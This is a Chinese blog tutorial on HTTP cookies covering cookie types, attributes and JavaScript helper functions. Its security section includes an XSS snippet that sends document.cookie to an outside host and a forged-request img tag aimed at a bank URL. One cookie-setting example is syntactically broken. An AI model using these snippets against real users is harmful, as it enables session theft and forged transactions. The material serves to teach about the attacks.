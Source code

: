 ```yaml
---
layout: post
title: HTTP cookie
category: 理解计算机
tag: HTTP
---
```



## cookie 的分类

cookie 按照其属性的不同，常见的可以分为以下类别：

### session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。

### Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的组成

cookie 由一下几个部分组成：

+ name
+ value
+ 其他属性
  + max-age
  + path
  + domain
  + secure

**下面详细就以上属性进行说明**

### name 和 value

cookie 中 name 和 value 不能有 `, ; =` 以及空格 ，因为这几个符号是用来分隔 cookie 中的名和值的。如要包含，则要进行字符转译。在 javascript 中可以使用 `encodeURIComponent` 来完成。

对于服务器要设置 cookie 只需要在 HTTP 响应头部中使用 `Set-Cookie: token=324` 这样的方式就可以了。对于浏览器可以使用以下方法：

```
document.cookie="name=xiaowang";domain="example.com"
```

### max-age

从设置 cookie 起，该 cookie 存在的秒数，如果设置 `max-age=1000` 那么该 cookie 会在 1000 秒后被删除。在早期可能存在 expires 这个属性，这个属性是设置一个具体的过期时间，在 HTTP 1.1 版本中以及被去掉了，但是浏览器还是会认识它，只是当 max-age 和 expires 同时存在的时候，认识 max-age 的浏览器会忽略 expires。关于这一点详细可以看这篇博客：[HTTP Cookies: What's the difference between Max-age and Expires?](http://mrcoles.com/blog/cookies-max-age-vs-expires/)。

### domain 和 path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 `/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

另外对于 cookie ，不同的端口是否为跨域，这一点标准中尚未说明。经过测试不同端口是可以拿到互相拿到 cookie 的。

### secure

设置了这个属性后，cookie 就成为一个 `Secure cookie` ，只会在加密传输的时候携带该 cookie。

## cookie 的注意事项

### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement('img');
img.src = 'www.foo.com?'+ 'text=' + escape(document.cookie);
```

### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

## 使用 javascript 操作 cookie

### 取得 cookie

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。


```javascript
util.getCookie = function(name) {
    var cookie = document.cookie;
    var list = cookie.split(/;\s/);
    for (var i = 0; i < list.length; i++) {
        var pair = list[i].split('=');
        if (pair[0] == name) {
            return decodeURIComponent(pair[1]);
        }
    }
    return null;
};
```

### 设置 cookie

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。

```javascript
util.setCookie = function(name, value, dayToLive, option) {
    var cookie = name + '=' + encodeURIComponent(value);
    if (typeof dayToLive === 'number') {
        cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
    }
    if (option) {
        for (var key in option) {
            if (key === 'path') {
                cookie += ';path=' + option[key];
            } else if (key === 'domain') {
                cookie += ';domain=' + option[key];
            } else if (key === 'secure') {
                cookie += ';secure';
            }
        }
    }
    document.cookie = cookie;
};
```
